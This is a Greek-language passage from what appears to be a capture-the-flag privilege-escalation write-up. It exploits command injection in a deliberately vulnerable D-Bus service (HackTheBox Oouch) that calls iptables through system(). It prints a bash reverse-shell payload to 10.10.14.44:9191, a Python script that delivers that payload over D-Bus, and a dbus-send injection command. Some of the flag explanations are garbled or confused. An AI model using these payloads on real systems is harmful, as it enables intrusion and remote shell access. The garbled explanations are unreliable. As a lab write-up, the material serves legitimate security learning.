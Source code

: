 Απέναντι στη σύνδεση D-Bus υπάρχει ένας μεταγλωττισμένος δυαδικός κώδικας C που εκτελείται. Αυτός ο κώδικας **ακούει** στη σύνδεση D-Bus **για διευθύνσεις IP και καλεί το iptables μέσω της λειτουργίας `system`** για να μπλοκάρει τη δοθείσα διεύθυνση IP.\
**Η κλήση στην `system` είναι ευάλωτη εσκεμμένα σε εντολές εισβολής**, έτσι ένα φορτίο όπως το παρακάτω θα δημιουργήσει ένα αντίστροφο κέλυφος: `;bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #`

### Εκμεταλλευτείτε το

Στο τέλος αυτής της σελίδας μπορείτε να βρείτε τον **πλήρη κώδικα C της εφαρμογής D-Bus**. Μέσα σε αυτόν μπορείτε να βρείτε μεταξύ των γραμμών 91-97 **πώς ο `D-Bus object path`** και το `όνομα διεπαφής` **εγγράφονται**. Αυτές οι πληροφορίες θα είναι απαραίτητες για να στείλετε πληροφορίες στη σύνδεση D-Bus:
```c
/* Install the object */
r = sd_bus_add_object_vtable(bus,
&slot,
"/htb/oouch/Block",  /* interface */
"htb.oouch.Block",   /* service object */
block_vtable,
NULL);
```
Επίσης, στη γραμμή 57 μπορείτε να βρείτε ότι **η μοναδική μέθοδος που έχει καταχωρηθεί** για αυτή την επικοινωνία D-Bus ονομάζεται `Block` (_**Γι' αυτό στην επόμενη ενότητα τα φορτία δεδομένων θα σταλούν στο αντικείμενο υπηρεσίας `htb.oouch.Block`, τη διεπαφή `/htb/oouch/Block` και τη μέθοδο με όνομα `Block`**_):
```c
SD_BUS_METHOD("Block", "s", "s", method_block, SD_BUS_VTABLE_UNPRIVILEGED),
```
#### Python

Ο παρακάτω κώδικας Python θα στείλει το φορτίο στη σύνδεση D-Bus στη μέθοδο `Block` μέσω `block_iface.Block(runme)` (_σημείωση ότι εξήχθη από το προηγούμενο τμήμα κώδικα_):
```python
import dbus
bus = dbus.SystemBus()
block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
runme = ";bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #"
response = block_iface.Block(runme)
bus.close()
```
#### busctl και dbus-send
```bash
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block string:';pring -c 1 10.10.14.44 #'
```
* Το `dbus-send` είναι ένα εργαλείο που χρησιμοποιείται για να στείλει μήνυμα στο "Message Bus".
* Message Bus - Ένα λογισμικό που χρησιμοποιείται από τα συστήματα για να διευκολύνει τις επικοινωνίες μεταξύ εφαρμογών. Σχετίζεται με την Ουρά Μηνυμάτων (τα μηνύματα είναι ταξινομημένα σε ακολουθία), αλλά στο Message Bus τα μηνύματα στέλνονται με ένα μοντέλο συνδρομής και είναι επίσης πολύ γρήγορα.
* Η ετικέτα "-system" χρησιμοποιείται για να αναφέρει ότι πρόκειται για ένα μήνυμα συστήματος, όχι ένα μήνυμα συνεδρίας (από προεπιλογή).
* Η ετικέτα "--print-reply" χρησιμοποιείται για να εκτυπώσει το μήνυμά μας κατάλληλα και να λαμβάνει οποιεσδήποτε απαντήσεις σε μορφή ευανάγνωστη από ανθρώπους.
* Η εντολή "--dest=Dbus-Interface-Block" είναι η διεύθυνση της διεπαφής Dbus.
* Η εντολή "--string:" - Τύπος μηνύματος που θέλουμε να στείλουμε στη διεπαφή. Υπάρχουν διάφορες μορφές αποστολής μηνυμάτων όπως διπλό, bytes, booleans, int, objpath. Από αυτά, το "object path" είναι χρήσιμο όταν θέλουμε να στείλουμε τη διαδρομή ενός αρχείου στη διεπαφή Dbus. Μπορούμε να χρησιμοποιήσουμε ένα ειδικό αρχείο (FIFO) σε αυτήν την περίπτωση για να περάσουμε ένα εντολή στη διεπαφή με το όνομα ενός αρχείου. "string:;" - Αυτό είναι για να καλέσουμε ξανά τη διαδρομή του αντικειμένου όπου τοποθετούμε το αρχείο αντιστροφής κέλυφους FIFO. 
